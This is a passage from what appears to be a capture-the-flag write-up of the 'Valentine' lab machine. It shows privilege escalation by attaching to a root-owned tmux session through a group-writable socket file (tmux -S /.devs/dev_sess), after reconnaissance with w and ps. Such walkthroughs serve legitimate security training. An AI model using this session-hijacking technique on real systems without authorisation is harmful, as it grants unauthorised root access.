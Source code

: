 **Key difference:** `-L` uses a socket name (tmux manages the path), while `-S` uses an exact socket file path that you specify.

Let’s check logged in users:

```bash
w

USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
hype     pts/0    10.10.16.7       03:52    1.00s  0.21s  0.00s w

```

We are the only one.

Trying the tmux commands also resulted in nothing.

Let’s look at the running processes:

```bash
ps -ef --forest

#interesting findings:
root       1026      1  0 02:35 tty4     00:00:00 /sbin/getty -8 38400 tty4
root       1035      1  0 02:35 tty5     00:00:00 /sbin/getty -8 38400 tty5
root       1037      1  0 02:35 ?        00:00:01 /usr/bin/tmux -S /.devs/dev_sess
```

Let’s go to the .devs dir:

```bash
ls -la 

srw-rw----  1 root hype    0 Sep  4 02:35 dev_sess
```

Let’s use the session:

```bash
tmux -S /.devs/dev_sess 

open terminal failed: missing or unsuitable terminal: tmux-256color
```

The remote machines does not have our local terminal type. Let’s just use a common terminal type:

```bash
export TERM=xterm
tmux -S /.devs/dev_sess
```

We now have root.

![image.png]({{ site.baseurl }}/assets/valentine/image%206.png)